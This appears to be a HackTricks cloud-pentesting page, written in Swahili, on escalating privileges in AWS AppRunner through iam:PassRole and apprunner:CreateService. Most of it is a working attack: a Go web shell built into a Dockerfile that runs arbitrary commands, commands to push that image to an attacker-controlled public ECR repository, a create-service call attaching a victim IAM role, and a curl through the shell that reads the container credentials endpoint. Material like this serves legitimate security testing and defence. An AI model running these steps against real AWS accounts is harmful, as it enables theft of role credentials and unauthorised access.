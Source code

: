 # AWS - AppRunner Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## AppRunner

### `iam:PassRole`, `apprunner:CreateService`

Mshambuliaji mwenye vibali hivi anaweza kuunda service ya AppRunner yenye IAM role iliyounganishwa, na hivyo anaweza kuongeza mamlaka kwa kupata credentials za role hiyo.

Mshambuliaji kwanza huunda Dockerfile inayotumika kama web shell kwa kutekeleza amri yoyote kwenye container ya AppRunner.
```Dockerfile
FROM golang:1.24-bookworm
WORKDIR /app
RUN apt-get update && apt-get install -y ca-certificates curl
RUN cat <<'EOF' > main.go
package main

import (
"fmt"
"net/http"
"os/exec"
)

func main() {
http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
command := exec.Command("sh", "-c", r.URL.Query().Get("cmd"))
output, err := command.CombinedOutput()
if err != nil {
fmt.Fprint(w, err.Error(), output)
return
}

fmt.Fprint(w, string(output))
})
http.ListenAndServe("0.0.0.0:3000", nil)
}
EOF
RUN go mod init test && go build -o main .
EXPOSE 3000
CMD ["./main"]
```
Kisha, push image hii kwenye ECR repository.

Kwa ku-push image kwenye public repository ndani ya AWS account inayodhibitiwa na attacker, privilege escalation inawezekana hata kama victim's account haina permissions za ku-manipulate ECR.
```sh
IMAGE_NAME=public.ecr.aws/<alias>/<namespace>/<repo-name>:latest
docker buildx build --platform linux/amd64 -t $IMAGE_NAME .
aws ecr-public get-login-password | docker login --username AWS --password-stdin public.ecr.aws
docker push $IMAGE_NAME
docker logout public.ecr.aws
```
Ifuatayo, mshambuliaji anaunda huduma ya AppRunner iliyosanidiwa na web shell image hii na IAM Role wanayotaka exploit.
```bash
aws apprunner create-service \
--service-name malicious-service \
--source-configuration '{
"ImageRepository": {
"ImageIdentifier": "public.ecr.aws/<alias>/<namespace>/<repo-name>:latest",
"ImageRepositoryType": "ECR_PUBLIC",
"ImageConfiguration": { "Port": "3000" }
}
}' \
--instance-configuration '{"InstanceRoleArn": "arn:aws:iam::123456789012:role/AppRunnerRole"}' \
--query Service.ServiceUrl
```
Baada ya kusubiri uundaji wa service kukamilika, tumia web shell kupata container credentials na kupata ruhusa za IAM Role iliyounganishwa na AppRunner.
```sh
curl 'https://<service-url>/?cmd=curl+http%3A%2F%2F169.254.170.2%24AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
```
**Athari Inayowezekana:** privilege escalation ya moja kwa moja kwa IAM role yoyote ambayo inaweza kuambatishwa kwenye huduma za AppRunner.

{{#include ../../../../banners/hacktricks-training.md}}
